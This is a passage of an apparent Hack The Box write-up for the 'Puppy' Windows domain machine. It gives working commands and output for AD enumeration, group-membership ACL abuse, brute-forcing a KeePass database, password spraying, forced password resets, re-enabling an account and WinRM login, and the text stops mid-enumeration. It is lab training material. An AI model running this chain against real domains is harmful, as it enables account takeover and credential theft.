

## Table of Contents

- [Summary](#Summary)
- [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Access Control List (ACL) GenericWrite Abuse](#Access-Control-List-ACL-GenericWrite-Abuse)
- [Privilege Escalation to ant.edwards](#Privilege-Escalation-to-antedwards)
    - [Cracking the KeePassXC Database Password](#Cracking-the-KeePassXC-Database-Password)
    - [Investigating KeePassXC Database](#Investigating-KeePassXC-Database)
    - [Password Spraying](#Password-Spraying)
- [Foothold](#Foothold)
- [Privilege Escalation to adam.silver](#Privilege-Escalation-to-adamsilver)
    - [Access Control List (ACL) GenericAll Abuse](#Access-Control-List-ACL-GenericAll-Abuse)
- [user.txt](#usertxt)
- [Enumeration (adam.silver)](#Enumeration-adamsilver)
- [Privilege Escalation to steph.cooper](#Privilege-Escalation-to-stephcooper)
    - [Investigating site-backup-2024-12-30.zip](#Investigating-site-backup-2024-12-30zip)
- [Enumeration (steph.cooper)](#Enumeration-stephcooper)
- [Privilege Escalation to System](#Privilege-Escalation-to-System)
    - [Data Protection API (DPAPI)](#Data-Protection-API-DPAPI)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

With the given `credentials` the box starts by dumping the `configuration` of the `Active Directory` which reveals that the user `levi.james` is part of the `HR` group which has `GenericWrite` permissions over the `DEVELOPERS` group. By abusing this permission and adding `levis.james` to the `DEVELOPERS` group it is possible to access the `DEV` share on port `445/TCP`. The share holds a `KeePassXC` database. The `password` can be `cracked` using a tool called `keepass4brute`. Inside the database then a few more `passwords` can be found. By `password spraying` the `passwords` against `users` of the `Active Directory` the `privilege escalation` to `ant.edwards` can be verified. For the `foothold` as `adam.silver` and access to the `user.txt`, the abuse of `GenericAll` permissions through the `SENIOR DEVS`  group which `ant.edwards` is a member of needs to be performed. With a session on the box as `adam.silver` the next step is to download the `site-backup-2024-12-30.zip` within `C:\Backups\`. Inside the `.zip-archive` some `plaintext credentials` for `steph.cooper` can be found. A session as `steph.cooper` enables access to a `Data Protection API (DPAPI) Blob` and the corresponding `SID` and `file` containing the data for the `Masterkey` to be `decrypted`. After `decrypting` the `DPAPI Blob` locally, credentials for the user `steph.cooper_adm` can be exfiltrated. The user is member of the `Administrators` group and therefore allows to read the `root.txt`.

## Introduction

As is common in real life pentests, you will start the Puppy box with credentials for the following account: `levi.james / KingofAkron2025!`

## Reconnaissance

### Port Scanning

The initial `port scan` using `Nmap` revealed what we expected. A typical `Windows Server` with the corresponding open ports.

```shell
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.129.184.6
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 21:02 CEST
Nmap scan report for 10.129.184.6
Host is up (0.14s latency).
Not shown: 985 filtered tcp ports (no-response)
Bug in iscsi-info: no string output.
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-18 02:02:34Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-18T02:04:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 194.91 seconds
```

### Domain Enumeration

While the `port scan` was running we already went for a sneak peak at the `domain` and added `puppy.htb` and `dc.puppy.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.184.6

ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.184.6
[*] Username ......... ''
[*] Random Username .. 'gokxmuur'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on 10.129.184.6    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ====================================================
|    Domain Information via LDAP for 10.129.184.6    |
 ====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: PUPPY.HTB

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.184.6    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on 10.129.184.6    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ===========================================================
|    Domain Information via SMB session for 10.129.184.6    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                                                                   
NetBIOS domain name: PUPPY                                                                                                                                                                                                                  
DNS domain: PUPPY.HTB                                                                                                                                                                                                                       
FQDN: DC.PUPPY.HTB                                                                                                                                                                                                                          
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: PUPPY                                                                                                                                                                                                                       

 =========================================
|    RPC Session Check on 10.129.184.6    |
 =========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ===================================================
|    Domain Information via RPC for 10.129.184.6    |
 ===================================================
[+] Domain: PUPPY
[+] Domain SID: S-1-5-21-1487982659-1829050783-2281216199
[+] Membership: domain member

 ===============================================
|    OS Information via RPC for 10.129.184.6    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: ''                                                                                                                                                                                                                              
OS build: '20348'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 =====================================
|    Users via RPC on 10.129.184.6    |
 =====================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ======================================
|    Groups via RPC on 10.129.184.6    |
 ======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ======================================
|    Shares via RPC on 10.129.184.6    |
 ======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 =========================================
|    Policies via RPC for 10.129.184.6    |
 =========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 =========================================
|    Printers via RPC for 10.129.184.6    |
 =========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 34.50 seconds
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.184.6    puppy.htb
10.129.184.6    dc.puppy.htb
```

### Enumeration of Port 445/TCP

Since we got `credentials` for the box we proceed with testing port `445/TCP` and figured out that we were able to read `IPC$` which we used to `RID Brute Force` a quick `list` of `users` for potential `password spraying`.

We also noticed a share called `DEV` which we could not access yet.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --shares 
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.184.6    445    DC               [*] Enumerated shares
SMB         10.129.184.6    445    DC               Share           Permissions     Remark
SMB         10.129.184.6    445    DC               -----           -----------     ------
SMB         10.129.184.6    445    DC               ADMIN$                          Remote Admin
SMB         10.129.184.6    445    DC               C$                              Default share
SMB         10.129.184.6    445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.129.184.6    445    DC               IPC$            READ            Remote IPC
SMB         10.129.184.6    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.184.6    445    DC               SYSVOL          READ            Logon server share
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --shares --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}'
Administrator
Guest
krbtgt
DC$
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```

### Active Directory Enumeration

Then we moved on and created a `dump` of the `Active Directory` using `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ netexec ldap 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --dns-tcp --dns-server 10.129.184.6 -c All
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.129.184.6    389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
LDAP        10.129.184.6    389    DC               Resolved collection methods: trusts, session, container, psremote, dcom, objectprops, localadmin, acl, group, rdp
LDAP        10.129.184.6    389    DC               Done in 00M 31S
LDAP        10.129.184.6    389    DC               Compressing output into /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-17_210545_bloodhound.zip
```

First we checked the `user` we got the `password`for in order to start with the box. So the user `levi.james` was member of the `HR` group.


The group itself had `GenericWrite` permissions on `DEVELOPERS`.


Inside the `DEVELOEPRS` group we found three members.

- jamie.williams
- ant.edwards
- adam.silver


The user `adam.silver` was able to use `CanPSRemote` to get an actual session on the box. So that was the target we were aiming for as next step.


We investigated further and noticed that `ant.edwards` was member of the `SENIOR DEVS` group which had `GenericAll` permissions on `adam.silver`. We noted that as path for `privilege escalation`.


Another user we found was `steph.cooper` which also had the permission of `CanPSRemote` to login to the box.


## Access Control List (ACL) GenericWrite Abuse

We started the chain of exploitation by adding ourselves to the `DEVELOPERS` group abusing the `GenericWrite` permission of `levi.james`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "10.129.184.6"
```

This made us capable of accessing the `SMB` share `DEV`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ netexec smb 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --shares                                        
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.184.6    445    DC               [*] Enumerated shares
SMB         10.129.184.6    445    DC               Share           Permissions     Remark
SMB         10.129.184.6    445    DC               -----           -----------     ------
SMB         10.129.184.6    445    DC               ADMIN$                          Remote Admin
SMB         10.129.184.6    445    DC               C$                              Default share
SMB         10.129.184.6    445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.129.184.6    445    DC               IPC$            READ            Remote IPC
SMB         10.129.184.6    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.184.6    445    DC               SYSVOL          READ            Logon server share
```

We used the `spider_plus` module of `NetExec` to download the content of the share.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ netexec smb 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --shares -M spider_plus -o DOWNLOAD_FLAG=true 
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SPIDER_PLUS 10.129.184.6    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.184.6    445    DC               [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.129.184.6    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.184.6    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.184.6    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.184.6    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.184.6    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.129.184.6    445    DC               [*] Enumerated shares
SMB         10.129.184.6    445    DC               Share           Permissions     Remark
SMB         10.129.184.6    445    DC               -----           -----------     ------
SMB         10.129.184.6    445    DC               ADMIN$                          Remote Admin
SMB         10.129.184.6    445    DC               C$                              Default share
SMB         10.129.184.6    445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.129.184.6    445    DC               IPC$            READ            Remote IPC
SMB         10.129.184.6    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.184.6    445    DC               SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.129.184.6    445    DC               [-] Failed to download file "UltFsQYRGg.txt". Error: 'RemoteFile' object has no attribute 'get_filesize'
SPIDER_PLUS 10.129.184.6    445    DC               [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.129.184.6.json".
SPIDER_PLUS 10.129.184.6    445    DC               [*] SMB Shares:           6 (ADMIN$, C$, DEV, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.184.6    445    DC               [*] SMB Readable Shares:  4 (DEV, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.184.6    445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.184.6    445    DC               [*] Total folders found:  28
SPIDER_PLUS 10.129.184.6    445    DC               [*] Total files found:    12
SPIDER_PLUS 10.129.184.6    445    DC               [*] Files filtered:       1
SPIDER_PLUS 10.129.184.6    445    DC               [*] File size average:    2.73 MB
SPIDER_PLUS 10.129.184.6    445    DC               [*] File size min:        0 B
SPIDER_PLUS 10.129.184.6    445    DC               [*] File size max:        32.8 MB
SPIDER_PLUS 10.129.184.6    445    DC               [*] File unique exts:     7 (.ini, .txt, .msi, .cmtx, .kdbx, .pol, .inf)
SPIDER_PLUS 10.129.184.6    445    DC               [*] Downloads successful: 10
SPIDER_PLUS 10.129.184.6    445    DC               [*] Downloads failed:     1
```

It only contained a `KeePassXC` database called `recovery.kdbx`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ ls -lah /tmp/nxc_hosted/nxc_spider_plus/10.129.184.6/DEV/
total 4.0K
drwxrwxr-x 2 kali kali   60 May 17 21:22 .
drwxrwxr-x 4 kali kali   80 May 17 21:22 ..
-rw-rw-r-- 1 kali kali 2.7K May 17 21:22 recovery.kdbx
```

## Privilege Escalation to ant.edwards

### Cracking the KeePassXC Database Password

Since `keepass2john` didn't support the `version` of the `database` our man `trustie_rity` came up with a nice tool called `keepass4brute`.

- [https://github.com/r3nt0n/keepass4brute](https://github.com/r3nt0n/keepass4brute)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ git clone https://github.com/r3nt0n/keepass4brute
Cloning into 'keepass4brute'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (21/21), done.
remote: Total 24 (delta 10), reused 9 (delta 2), pack-reused 0 (from 0)
Receiving objects: 100% (24/24), 18.26 KiB | 1.22 MiB/s, done.
Resolving deltas: 100% (10/10), done.
```

The use of the tool was pretty straight forward and within seconds we got the `password` for the database `brute forced`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Puppy/files/keepass4brute]
└─$ ./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt 
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 90 - Estimated time remaining: 15 weeks, 5 days
[+] Current attempt: liverpool

[*] Password found: liverpool
```

| Password  |
| --------- |
| liverpool |

### Investigating KeePassXC Database

The database contained a lot of `passwords` for various `users`.


| Username          | Password       |
| ----------------- | -------------- |
| ADAM SILVER       | HJKL2025!      |
| ANTONY C. EDWARDS | Antman2025!    |
| JAMIE WILLIAMSON  | JamieLove2025! |
| SAMUEL BLAKE      | ILY2025!       |
| STEVE TUCKER      | Steve2025!     |

### Password Spraying

We put them into a `custom password list` together with the `user list` we created using `RID Brute Forcing` and started `password spraying`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ cat passwords.txt 
KingofAkron2025!
liverpool
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

With that we verified the `password` of `ant.edwards`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ netexec smb 10.129.184.6 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\ant.edwards:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\ant.edwards:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\ant.edwards:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:ILY2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:ILY2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:ILY2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:ILY2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:Steve2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:Steve2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:Steve2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:Steve2025! STATUS_LOGON_FAILURE
```

| Username    | Password    |
| ----------- | ----------- |
| ant.edwards | Antman2025! |

## Foothold

## Privilege Escalation to adam.silver

### Access Control List (ACL) GenericAll Abuse

Now with the password of `ant.edwards` we started working on the `privilege escalation` to `adam.silver` abusing `GenericAll` permissions due to the `SENIOR DEVS` group.



We `changed` the `password` of `adam.silver` and `verified` it using `NetExec`. Unfortunately the `account` was `disabled` (`STATUS_ACCOUNT_DISABLED`).

```shell
┌──(kali㉿kali)-[~]
└─$ net rpc password "adam.silver" "newP@ssword2022" -U "PUPPY.HTB"/"ant.edwards"%'Antman2025!' -S "10.129.184.6"
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec ldap 10.129.184.6 -u "adam.silver" -p "newP@ssword2022"
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.129.184.6    389    DC               [-] PUPPY.HTB\adam.silver:newP@ssword2022 STATUS_ACCOUNT_DISABLED
```

We abuse our permissions a second time to `activate` the `account` using `BloodyAD`.

```shell
┌──(kali㉿kali)-[~]
└─$ bloodyAD --host 10.129.184.6 -d PUPPY.HTB -u ant.edwards -p Antman2025! remove uac 'adam.silver' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

Then we changed the password again to ensure that no `cleanup job` would interfere the process.

```shell
┌──(kali㉿kali)-[~]
└─$ net rpc password "adam.silver" "newP@ssword2022" -U "PUPPY.HTB"/"ant.edwards"%'Antman2025!' -S "10.129.184.6"
```

After that we successfully `activated` the `account` of `adam.silver` and `changed` his `password`.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec ldap 10.129.184.6 -u "adam.silver" -p "newP@ssword2022"                                                 
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.129.184.6    389    DC               [+] PUPPY.HTB\adam.silver:newP@ssword2022
```

Now we were able to `login` as `adam.silver` and grab the `user.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i puppy.htb -u 'adam.silver' -p 'newP@ssword2022'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents>
```

## user.txt

```shell
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> type user.txt
96bc7d91c8a6b6d78aedef2d06d1f32f
```

## Enumeration (adam.silver)

With the session of `adam.silver` we started the `enumeration` of the `files` on the box.

```shell
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ==============================================
puppy\adam.silver S-1-5-21-1487982659-1829050783-2281216199-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
PUPPY\DEVELOPERS                            Group            S-1-5-21-1487982659-1829050783-2281216199-1113 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

A folder called `Backups` located within `C:\` caught our attention.

```shell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
